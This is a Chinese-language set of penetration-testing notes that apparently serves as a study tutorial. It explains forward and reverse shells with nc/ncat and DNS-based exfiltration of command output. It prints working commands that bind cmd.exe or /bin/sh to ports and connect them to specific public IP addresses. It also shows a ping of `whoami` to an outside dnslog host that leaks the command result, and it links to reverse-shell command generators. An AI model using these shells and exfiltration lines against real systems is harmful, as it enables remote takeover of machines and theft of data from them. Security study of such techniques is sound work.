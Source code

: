 ### 文件下载命令生成：

https://forum.ywhack.com/bountytips.php?download



### 反弹shell

命令生成：https://forum.ywhack.com/shell.php

为什么需要反弹shell

**解决数据回显**

![image-20250317162112019](image-20250317162112019.png)

比如一个漏洞像这种，输入一个命令之后，需要你继续输入东西的，我们如果没有对方的界面，就无法继续输入东西。所以需要反弹shell获取到对方的界面

**解决数据通讯**

如果在网页上已知提交，提交一条就会有一条记录，但如果反弹shell之后就只有一条记录，后面都是本地的



#### 正向连接（本地监听等对方连接）

**Linux控制Windows**

nc在linux是自带的，在windows需要下载



在windows中：将cmd绑定到本地的5566端口（端口随机）：

`nc -e cmd -lvp 5566`

在linux中：主动连接目标的5566

`ncat 47.122.23.131 5566`



**windows控制linux**

在Linux中：绑定sh到本地5566端口

`ncat -e /bin/sh -lvp 5566`

在windows中：主动连接目标的5566

`nc 47.94.236.117 5566`



#### 反向连接（主动给出到对方监听的端口）

 例如：

windows监听本地的5566：

`nc -lvp 5566`

linux绑定自己的sh，给到对方的5566端口：

`ncat -e /bin/sh 121.62.16.96 5566`



要控制内网一台机器的权限，只能通过反向连接，因为你不知道内网机器的IP



**场景：**漏洞有，但是**数据不回显**——反弹shell

什么是dnslog

打开dnslog平台可以看到自己的地址 4o7zc8.dnslog.cn

通过linux服务器 ping 4o7zc8.dnslog.cn 可以看到记录：

![image-20250317194816121](image-20250317194816121.png)

linux服务器输入命令：

```
ping `whoami`.4o7zc8.dnslog.cn
```

结果：

![1742212215565](C:\Users\86151\Documents\WeChat Files\wxid_ectne75nfs1922\FileStorage\Temp\1742212215565.jpg)

```
但是windows主机并不支持``，

cmd无法执行whoami，因为前面有个ping，要ping `whoami` 才能执行到whoami，但是windows主机的话不支持``，所以需要用到powershell变量赋值把whoami的执行结果给变量。因为执行结果中带有“\“导致ping无法执行，所以把\换掉


```



![image-20250317195133001](image-20250317195133001.png)



![image-20250317195801378](image-20250317195801378.png)



